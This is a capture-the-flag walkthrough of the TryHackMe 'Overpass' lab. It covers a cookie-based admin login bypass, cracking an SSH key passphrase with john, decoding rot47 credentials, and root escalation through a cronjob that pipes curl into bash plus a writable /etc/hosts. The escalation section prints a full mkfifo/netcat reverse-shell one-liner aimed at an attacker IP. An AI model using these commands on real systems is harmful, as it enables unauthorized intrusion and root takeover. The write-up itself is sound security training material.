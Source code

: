 # Overpass (THM)

- https://tryhackme.com/room/overpass
- March 2, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
2. 80/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

### HTTP

- download buildscript.sh and overpass.go files.
- analyse overpass.go file

  - passListEntry -> name, pass
  - rot47 encrypt
  - save credentials to file
  - load credentials from file and check username, password
  - credentials are stored as json format
  - CRUD data
  - save file in ~/.overpass file

- enumerate directories

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
render/https://www.google.com [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [4713/4713] :: Job [1/1] :: 114 req/sec :: Duration: [0:00:41] :: Errors: 0 ::
```

- from admin page, download 3 javascript files
- nothing special in main.js
- from login.js

```javascript
...
async function login() {
    // ...
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

- try to set cookie "SessionToken:anyvalue" in admin page

```sh
$ curl http://$IP/admin/ -H "Cookie: SessionToken=anyvalue"
```

- get private key and save as id_rsa
- enter ssh with id_rsa
- username ?? -> try with root, need to find usernames from webpage
- change permission 600 to id_rsa
- need passphrase
- crack with john

```sh
$ /opt/tools/john/run/ssh2john.py id_rsa > forjohn
$ john forjohn
```

- passphrase - `james13`
- username - james ??

```sh
$ ssh james@$IP -i id_rsa
```

## User Access

- can enter as james user
- `sudo -l` -> password `james13` is not correct
- found .overpass file in his folder

```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

- decrypt rot47 at cyberchef

```json
[{ "name": "System", "pass": "saydrawnlyingpicture" }]
```

- there is no username System. 
- it is james' password
- try to run linpeas
- Interesting outputs

```
# cronjob
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- and

```sh
james@overpass-prod:/tmp$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```
> It means root user is getting file from overpass.thm/downloads/src/buildscript.sh and run bash and the /etc/hosts file is editable 

## Root Access

- can I make a server like this directory and put reverse shell to buildscript.sh in my own server

- In local machine,

```sh
$ mkdir -p downloads/src/
$ touch downloads/src/buildscript.sh
```

- inside buildscript.sh,

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- make a server with python

```sh
python -m http.server 80
```

- listen with nc at 4242
- then change `/etc/hosts` file in victim machine
- original `/etc/hosts` -> `127.0.0.1 overpass.thm` to `10.11.8.57 overpass.thm`


![](images/2023-03-02-23-05-10.png)

- get root access

---

